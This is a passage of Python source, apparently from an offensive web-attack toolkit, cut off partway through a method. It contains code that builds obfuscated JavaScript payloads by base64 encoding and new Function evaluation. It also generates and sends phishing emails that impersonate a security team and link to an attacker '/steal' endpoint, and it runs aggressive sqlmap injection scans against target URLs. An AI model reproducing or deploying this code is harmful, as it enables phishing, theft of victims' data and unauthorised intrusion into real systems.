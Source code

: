     def predict_exploitability(self, vuln):
        if not self.model:
            return True

        features = {
            "http_code": 200,
            "response_size": len(vuln.get("details", "")),
            "waf_detected": 1 if "waf" in vuln.get("details", "").lower() else 0,
        }
        for vuln_type in ["SQL Injection", "XSS", "LFI", "Open Redirect", "CSRF", "SSRF", "RCE", "XXE", "IDOR", "File Upload", "CVE", "CORS Misconfiguration", "Misconfiguration", "Exposed File", "Zero-Day"]:
            features[f"vuln_type_{vuln_type}"] = 1 if vuln["type"] == vuln_type else 0

        df = pd.DataFrame([features])
        return self.model.predict(df)[0]

    def generate_polymorphic_payload(self, payload):
        print("[*] Generating polymorphic payload...")
        encoded = base64.b64encode(payload.encode()).decode()
        random_var = ''.join(random.choices(string.ascii_letters, k=10))
        obfuscated = f"""
        var {random_var} = atob('{encoded}');
        var f = new Function({random_var});
        setTimeout(f, {random.randint(1000, 5000)});
        """
        return obfuscated

    def generate_phishing_campaign(self, target_email):
        print(f"[*] Generating phishing campaign for {target_email}...")
        phishing_template = f"""
        Subject: Urgent: Account Verification Required
        Dear {target_email.split('@')[0]},
        We have detected suspicious activity on your account. Please click the link below to verify your identity:
        {self.attacker_url}/steal?data={self.cipher.encrypt(target_email.encode()).decode()}
        Failure to verify within 24 hours will result in account suspension.
        Regards,
        Security Team
        """
        print(f"[!] Phishing email generated:\n{phishing_template}")
        return phishing_template

    async def send_phishing_email(self, target_email):
        print(f"[*] Sending phishing email to {target_email}...")
        phishing_email = self.generate_phishing_campaign(target_email)
        async with aiohttp.ClientSession() as session:
            async with session.post(f"{self.attacker_url}/steal", data={"data": phishing_email}) as resp:
                print(f"[!] Phishing email sent to {target_email}!")
        return phishing_email

    def test_sql_injection(self, url):
        print(f"[*] Testing SQL Injection on {url}...")
        success = 0
        payload = "sqlmap"
        http_code = 0
        response_size = 0
        waf_detected = 0
        try:
            result = subprocess.run(
                ["sqlmap", "-u", url, "--batch", "--dbs", "--random-agent", "--level=5", "--risk=3", "--technique=BEUSTQ"],
                capture_output=True,
                text=True,
                timeout=300
            )
            if "available databases" in result.stdout: